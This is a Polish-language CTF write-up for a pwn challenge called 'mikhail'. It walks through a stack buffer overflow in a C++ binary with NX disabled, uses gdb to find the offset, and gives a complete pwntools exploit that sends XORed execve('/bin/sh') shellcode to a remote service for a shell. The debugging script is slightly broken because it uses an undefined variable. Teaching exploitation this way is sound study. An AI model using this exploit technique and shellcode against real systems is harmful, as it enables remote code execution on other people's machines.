

# mikhail write-up

## Wykorzystywane narzędzia

- pwntools
- gdb
- pwndbg
- jakiś disasembler np. IDA Pro, objdump, radare2, Binary Ninja

## Opis zadania

W tym zadaniu dostajemy binarkę która działa po stronie serwera i źródło w C++.  

Programem checksec który instaluje się razem z `pwndbg` można sprawdzić z jakimi zabezpieczeniami program został skompilowany.

```
b@x:~/Desktop/mikhail > checksec story
[*] '/home/b/Desktop/mikhail/story'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
```

Dla nas istotne są rubryki:  

- `Stack` - mówi nam że na stosie nie ma kanarków
- `NX` - NX jest wyłączone, czyli program może wykonywać instrukcje leżące na stosie lub stercie.
- `PIE` - Za każdym włączeniem programu, plik binarny będzie ładowany pod losowym adresem. Między innymi sekcja kodu


## Szukanie podatności

W kodzie programu można zobaczyć 2 linijki:

```C 
    char password[64];
```
a później: 

```
    pass_len = read(0, password, 1000);
```

Co oznacza że program jest podatny na `buffer overflow` i możemy nadpisać adres powrotu na `A` powodując że program zacznie wykonywać instrukcje spod adresu `A`. Niestety nic nam to nie daje bo przez `PIE` i `ASLR` nie wiemy gdzie wskoczyć.  

Analizując dalej widzimy taki kod:

```C
    char const *const msg = "Yay! We encrypted your story! It's secret now at ";
    for(i = 0; i < 49; ++i) {
        password[pass_len + i] = msg[i];
    }

    size_t *const ptr = reinterpret_cast<size_t *>(&password[pass_len + 49]);
    *ptr = reinterpret_cast<size_t>(story);
```

który dopisuje do bufora na stosie `password` wiadomość `Yay! We encrypted your story! It's secret now at ` a poźniej jeszcze jest dodawany wskaźnik na bufor `story`. Jest on zapisywany w postaci little-endian.
Ale tutaj znowu nie ma sprawdzania czy do bufora nie kopiujemy zbyt dużo danych i znowu mamy tutaj podatność buffer overflow.

Oznacza to, że jeśli wybierzemy nasze hasło odpowiedniej długości to wskaźnik na bufor `story` zapisze się w miejscu adresu powrotu z funkcji. Wtedy po wyjściu z funkcji `foo` program zacznie wykonywać kod maszynowy w tablicy znaków `story` .

Tylko jak obliczyć długość hasła?  

Po zdisasemblerowaniu binarki można odnaleźć miejsce w którym właśnie jest zapisywny wskaźnik na `story`:

```
.text:0000000000000A6C                 mov     rax, cs:story
.text:0000000000000A73                 mov     rdx, rax
.text:0000000000000A76                 mov     rax, [rbp+var_30]
.text:0000000000000A7A                 mov     [rax], rdx
```
Za samo wrzucenie wskaźnika do `story` odpowiada instrukcja pod adresem `0000000000000A7A`.  

Spróbujmy podpiąć się debuggerem w to miejsce.

## Debugowanie


Włączmy binarke w gdb. Musimy mieć na uwadze to, że jeśli uruchamiamy proces w gdb to on automatycznie wyłącza ASLRa i PIE. Wtedy adresy które są pokazywane przez disasembler w pamięci procesu załadują się pod adresem o `0x555555554000` większym. (`0x555555554000` jest nazywamy adresem bazowym).  


```
b@x:~/Desktop/mikhail > gdb ./story
```

Ustawiamy breakpoint na `0x555555554a7a`

```
b *0x555555554a7a
```

i na instrukcji `ret` w funkcji `foo`:

```
b *0x555555554aab
```

Możemy teraz urcuhomić program w gdb i podać puste hasło (1-Bajtowe haslo - sam znak nowej lini):



Powyżej widzimy że przy wysłaniu pustego hasła program nadpisuje adres `0x7fffffffd632`.


Powyżej widać że adres powrotu znajduje się pod adresem: `0x7fffffffd678`

Obliczmy róźnicę pomiędzy tymi adresami:

```python
In [1]: 0x7fffffffd678-0x7fffffffd632
Out[1]: 70

```
Trzeba wysłać password dłuższe o 70 znaków czyli sumarycznie 71 znaków. 
Możemy sprawdzić w gdb czy obliczyliśmy wszystko poprawnie (wysyłamy 70 znaków `a` i znak nowej lini:


Na powyższym obrazku widzimy że adres bufora `story` jest wpisywany tam gdzie jest adres powrotu z funkcji `foo`.


Po kontynuowaniu wykonywania programu w gdb widzimy że program wywalił się na próbie wykonywania instrukcji ze sterty, co oznacza że próbował wykonać instukcje z bufora `story`

## Piszemy exploita

Możemy uruchomić binarkę u siebie tak aby nasłuchiwała na porcie 1337 i przekierowywała stdin i stdout na socket:

```b@x:~/Desktop/mikhail > socat TCP-LISTEN:1337,reuseaddr,fork EXEC:./story```

W ten sposób uruchamiane są zadania kategori pwn na serwerach które trzeba zpwnować

Pozostało nam jeszcze tylko wstawienie shellcodu do `story` (musimy go jeszcze zxorować z bajtami które są w `password`, bo później w aplikacji jest xorowanie jeszcze raz). Poszukujemy shellcodu `execve("/bin/sh",0,0)` lub podobnego który podmieni nam aktywny proces na `/bin/sh`. Shellcody możemy znaleźć np. na exploit-db.com, wygenerować metasploitem lub użyć [shellcraft z pwntools](http://docs.pwntools.com/en/stable/shellcraft.html)

exploit znajduje się poniżej:  

```python

from pwn import *

r = remote('localhost',1337)
def get_shellcode_execve():
    return "\x48\x31\xc0\x48\x83\xc0\x3b\x48\x31\xff\x57\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x8d\x3c\x24\x48\x31\xf6\x48\x31\xd2\x0f\x05"

shellcode =  get_shellcode_execve()
 

print r.recvuntil("story:")
r.send(xor(shellcode,'e'))
print r.recvuntil("password:")


payload = "e"*71
r.send(payload)
r.interactive()

```


Po zamienieniu `localhost` na adres serwera i zmienieniu portu, exploit również zadziała. Możemy teraz wpisać np. `ls`.  


A jeśli coś nam nie działa to możemy debugować exploita w taki sposób:

```python
from pwn import *


commands = [
  "bp 0x555555554aab",
  "c"
]

gdb.debug('./story',gdbscript="\n".join(commands))

def get_shellcode_execve():
    return "\x48\x31\xc0\x48\x83\xc0\x3b\x48\x31\xff\x57\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x8d\x3c\x24\x48\x31\xf6\x48\x31\xd2\x0f\x05"

shellcode =  get_shellcode_execve()
 

print r.recvuntil("story:")
r.send(xor(shellcode,'e'))
print r.recvuntil("password:")


payload = "e"*71
r.send(payload)
r.interactive()
```

Powinno to nam dodatkowo uruchomić dodatkowe okno z gdb.

## Przydatne polecenia gdb 

- `b` - ustawiamy breakpoint
- `c` / `continue` - kontynuujemy wykonywanie programu
- `r` / `run` - uruchamiamy program od początku